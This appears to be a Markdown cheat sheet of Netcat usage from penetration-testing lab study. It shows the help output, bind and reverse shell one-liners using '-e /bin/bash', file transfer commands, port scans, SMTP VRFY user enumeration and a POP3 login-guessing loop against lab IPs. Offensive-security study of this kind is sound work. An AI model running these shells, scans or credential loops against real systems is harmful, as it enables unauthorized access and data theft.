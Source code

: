 ```yaml
---
Description: Netcat (nc & ncat) is a feature-packed networking utility which reads and writes data across networks from the command line
---
```


```bash
┌──(kali㉿kali)-[~]
└─$ nc -h
[v1.10-46]
connect to somewhere:   nc [-options] hostname port[s] [ports] ...
listen for inbound:     nc -l -p port [-options] [hostname] [port]
options:
        -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\\-data').
```

## Shell

>[!warning]
>Latest version of netcat does not include the old `-e` flag

### Bind shell

*Who will connect, will get a Shell*
Server: `nc -lvp [port] -e /bin/bash`
Client: `nc [IP] [port]`

### Reverse shell

*When I connect to the server, I give a shell*
Server: `nc -lvp [port`
Client: `nc [IP] [port] -e /bin/bash`

## File transfer

### Pushing files

Server: `nc -lvp [port] > [destination file]`
Client: `nc [IP] [port] < [file to be pushed]`

### Downloading files

Server: `nc -lvp [port] < [file to download]`
Client: `nc [IP] [port] > [downloaded file]`

## Client mode

```bash
kali@kali:~$ nc -nv 10.11.0.22 110
(UNKNOWN) [10.11.0.22] 110 (pop3) open
+OK POP3 server lab ready <00004.1546827@lab>
USER offsec
+OK offsec welcome here
PASS offsec
-ERR unable to lock mailbox
quit
+OK POP3 server lab signing off.
kali@kali:~$
```

## Port scanning

### TCP scan

`-w` = timeout
`-z` = no data

```bash
kali@kali:~$ nc -nvv -w 1 -z 10.11.1.220 3388-3390
(UNKNOWN) [10.11.1.220] 3390 (?) : Connection refused
(UNKNOWN) [10.11.1.220] 3389 (?) open
(UNKNOWN) [10.11.1.220] 3388 (?) : Connection refused
sent 0, rcvd 0
```

### UDP scan

`-u` = UDP

```bash
kali@kali:~$ nc -nv -u -z -w 1 10.11.1.115 160-162
(UNKNOWN) [10.11.1.115] 161 (snmp) open
```

## SMTP Enumeration

```bash
kali@kali:~$ nc -nv 10.11.1.217 25
(UNKNOWN) [10.11.1.217] 25 (smtp) open
220 hotline.localdomain ESMTP Postfix
VRFY root
252 2.0.0 root
VRFY idontexist
550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient
table
^C

kali@kali:~$ for user in marcus john mailadmin jenny ryuu joe45; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC 10.11.1.72 110;  done
```